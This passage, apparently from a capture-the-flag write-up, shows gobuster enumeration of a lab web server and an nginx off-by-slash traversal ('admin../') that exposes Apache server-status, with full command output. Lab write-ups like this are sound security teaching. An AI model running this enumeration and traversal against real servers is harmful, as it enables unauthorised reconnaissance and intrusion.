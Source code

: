 ```
/admincp              (Status: 401) [Size: 456]
/.                    (Status: 200) [Size: 6922]
/administration       (Status: 401) [Size: 456]
/.htaccess            (Status: 403) [Size: 274]
/admin_index          (Status: 401) [Size: 456]
/admin_c              (Status: 401) [Size: 456]
...[snip]...
```

However the is a off-by-slash missconfiguration in the the nginx config, which means we can we can traverse a directory back and access the server root. The vulnerability is well outlined in [this](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) post by orange tsai starting on slide 17. Running another gobuster against this we find we have now access to the apache `server-status`.

```
$ gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u 10.129.44.70/admin../
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.44.70/admin../
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/18 01:11:22 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/admin                (Status: 401) [Size: 456]
/.html                (Status: 403) [Size: 274]
/.htm                 (Status: 403) [Size: 274]
/javascript           (Status: 301) [Size: 314] [--> http://127.0.0.1:81/javascript/]
/.                    (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.phtml               (Status: 403) [Size: 274]
/.htc                 (Status: 403) [Size: 274]
/.html_var_DE         (Status: 403) [Size: 274]
/server-status        (Status: 200) [Size: 4341]
/.htpasswd            (Status: 403) [Size: 274]
/.html.               (Status: 403) [Size: 274]
...[snip]...
```

The first entry in the `server-status` show a  directory we haven't found previously.
